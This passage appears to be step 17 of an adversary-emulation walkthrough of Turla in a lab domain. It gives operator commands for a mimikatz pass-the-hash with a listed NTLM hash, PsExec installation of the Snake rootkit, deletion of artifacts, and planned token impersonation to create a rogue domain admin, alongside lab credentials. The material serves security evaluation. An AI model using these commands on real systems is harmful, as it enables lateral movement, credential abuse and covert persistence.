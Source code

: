 :microphone: `Voice Track:`

Step 17 emulates Turla performing lateral movement to the domain admin's workstation and performing additional persistence by creating a new domain admin account.

The retrieved NTLM hash discovered in the previous step is used in a pass-the-hash attack to move laterally to `Zilvinas`'s workstation. PsExec is used via pass-the-hash to execute and install the Snake rootkit on the target workstation.

Once the admin workstation has been compromised, Snake is used to enumerate processes running on `Zilvinas`'s workstation `uosis`, where it is discovered that `ZilvinasAdmin` has processes running which can be used for token impersonation. By impersonating `ZilvinasAdmin`, a new domain user `Leshy` is created and added to the `Domain Admins` domain group for persistence.

---

### :biohazard: Procedures

* Instruct Snake to pass-the-hash using `ZilvinasAdmin`'s NTLM hash to run PsExec and install Snake on the target workstation.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 3, "proc": "C:\\Windows\\System32\\loadperf.exe", "args": "\"privilege::debug\" \"sekurlsa::pth /user:ZilvinasAdmin /ntlm:f3fcd61f987a97da49ce5f650b4e6539 /domain:nk.local /remotepc:uosis /pexe:C:\\Windows\\System32\\fs_mgr.exe /sys:1 /prun:C:\\Windows\\System32\\cmu_svc.exe\" \"quit\""}'
```

:arrow_right: Wait 2 minutes. Start a new RDP session to `uosis` (`10.100.40.102`) as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |

* Open Edge and navigate to `https://drebule.nk.local/owa`. Log in as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |

* Spend a couple minutes reading through any unread emails to wait for the implant to start beaconing back to the C2 server.

:arrow_right: Return to the Kali C2 terminal window and verify that a new implant session is beaconing back to the C2 server.

* Wait 1 minute and then task the implant to delete artifacts from the file server.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 1, "command": "del /Q C:\\Windows\\System32\\fs_mgr.exe C:\\Windows\\System32\\loadperf.exe C:\\Windows\\System32\\cmu_svc.exe"}'
```

* :arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`. 

* Click on the search bar and search for `powershell`. Right click `powershell` and then click "Run as Administrator".

* When prompted, type in the username and password for `ZilvinasAdmin`:
